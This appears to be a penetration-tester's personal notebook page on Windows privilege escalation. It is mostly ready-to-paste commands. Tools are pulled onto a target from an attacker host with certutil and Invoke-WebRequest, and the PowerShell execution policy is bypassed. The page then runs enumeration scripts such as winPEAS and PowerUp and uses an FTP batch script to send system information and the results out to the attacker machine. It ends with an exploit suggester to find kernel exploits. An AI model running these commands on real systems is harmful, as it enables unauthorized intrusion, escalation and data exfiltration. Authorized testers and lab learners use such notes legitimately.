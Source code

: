 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

| PS Tools | WinPEAS | Seatbelt3 | Seatbelt4 |
| -------------- | -------------- | -------------- | -------------- |
| Sherlock.ps1  | winPEAS.bat | SeatbeltNet3.5AnyCPU.exe | SeatbeltNet4AnyCPU.exe |
| PowerUp.ps1 | winPEASany.exe | SeatbeltNet3.5x64.exe | SeatbeltNet4x64.exe |
| jaws-enum.ps1 | winPEASx64.exe | SeatbeltNet3.5x86.exe | SeatbeltNet4x86.exe |
|  | winPEASx86.exe |  |  |


Do you have RDP access? [[Port 3389 - RDP ~]]

#### Download to Kali
Kali:
```bash - kali
wget https://github.com/carlospolop/PEASS-ng/releases/download/20220220/winPEAS.bat && wget https://github.com/carlospolop/PEASS-ng/releases/download/20220220/winPEASany.exe && wget https://github.com/carlospolop/PEASS-ng/releases/download/20220220/winPEASx64.exe && wget https://github.com/carlospolop/PEASS-ng/releases/download/20220220/winPEASx86.exe && wget https://raw.githubusercontent.com/411Hall/JAWS/master/jaws-enum.ps1 && wget https://raw.githubusercontent.com/rasta-mouse/Sherlock/master/Sherlock.ps1 && wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 && wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py && wget https://raw.githubusercontent.com/itm4n/PrivescCheck/master/PrivescCheck.ps1
```

#### AutoUpload.bat - ==REMEMBER TO CHANGE $KALI TO IP!==

```bash - kali
echo $KALI
```

```bash - kali
mousepad AutoUpload.bat
```

```powershell - windows
@echo off

echo anonymous> upload.txt
echo anonymous>> upload.txt
echo binary>>upload.txt

echo put JAWS-Enum.txt >> upload.txt
echo put PowerUp.txt >> upload.txt
echo put Sherlock.txt >> upload.txt
echo put winPEASx64.txt >> upload.txt
echo put systeminfo.txt >> upload.txt
echo put PrivescCheck.txt >> upload.txt

echo quit >> upload.txt

ftp -s:upload.txt $KALI

del upload.txt
```

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

#### Transfer to target - PowerShell - ==REMEMBER TO CHANGE $KALI TO IP!==

Check to see if you have PowerShell access:

```command prompt - windows
where /r C:\Windows powershell.exe
```

May need to run PowerShell with full path.

#### Bypass execution policy
```command prompt - windows
powershell -ep bypass
```

```powershell - windows
cd $env:TEMP; mkdir Tools; cd Tools; Invoke-WebRequest -Uri 'http://$KALI/winPEAS.bat' -OutFile winPEAS.bat; Invoke-WebRequest -Uri 'http://$KALI/winPEASany.exe' -OutFile winPEASany.exe; Invoke-WebRequest -Uri 'http://$KALI/winPEASx64.exe' -OutFile winPEASx64.exe; Invoke-WebRequest -Uri 'http://$KALI/winPEASx86.exe' -OutFile winPEASx86.exe; Invoke-WebRequest -Uri 'http://$KALI/Sherlock.ps1' -OutFile Sherlock.ps1; Invoke-WebRequest -Uri 'http://$KALI/PowerUp.ps1' -OutFile PowerUp.ps1; Invoke-WebRequest -Uri 'http://$KALI/jaws-enum.ps1' -OutFile jaws-enum.ps1; Invoke-WebRequest -Uri 'http://$KALI/PrivescCheck.ps1' -OutFile PrivescCheck.ps1; Invoke-WebRequest -Uri 'http://$KALI/AutoUpload.bat' -OutFile AutoUpload.bat
```

#### Transfer to target - CMD  - ==REMEMBER TO CHANGE $KALI TO IP!==
```command prompt - windows
mkdir %TEMP%\Tools && cd %TEMP%\Tools && certutil -urlcache -split -f http://$KALI/winPEAS.bat && certutil -urlcache -split -f http://$KALI/winPEASany.exe && certutil -urlcache -split -f http://$KALI/winPEASx64.exe && certutil -urlcache -split -f http://$KALI/winPEASx86.exe && certutil -urlcache -split -f http://$KALI/Sherlock.ps1 && certutil -urlcache -split -f http://$KALI/PowerUp.ps1 && certutil -urlcache -split -f http://$KALI/jaws-enum.ps1 && certutil -urlcache -split -f http://$KALI/PrivescCheck.ps1 && certutil -urlcache -split -f http://$KALI/AutoUpload.bat
```

#### Execute tools 
```powershell - winodws
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1; systeminfo > systeminfo.txt; . .\Sherlock.ps1; Find-AllVulns > Sherlock.txt; . .\PowerUp.ps1; Invoke-AllChecks > PowerUp.txt; .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt; .\winPEASx64.exe > winPEASx64.txt; . .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended > PrivescCheck.txt
```

#### Start FTP server and upload results

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#FTP Server]]

```powershell - windows
cmd /c "AutoUpload.bat"
```

#### windows-exploit-suggester.py
AutoUpload will have uploaded the systeminfo.txt file to kali through FTP.

```bash - kali
chmod +x windows-exploit-suggester.py
```

```bash - kali
sudo ./windows-exploit-suggester.py --update
```

```bash - kail
pip install xlrd --upgrade
```

If pip is not installed:
[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Install pip]]

![[Pasted image 20221110100601.png]]

From the above image, we need the "2022-02-03-mssb.xls" file:

```bash - kail
sudo ./windows-exploit-suggester.py --database 2022-02-04-mssb.xls --systeminfo systeminfo.txt
```

[[3._Kernel Exploits]]
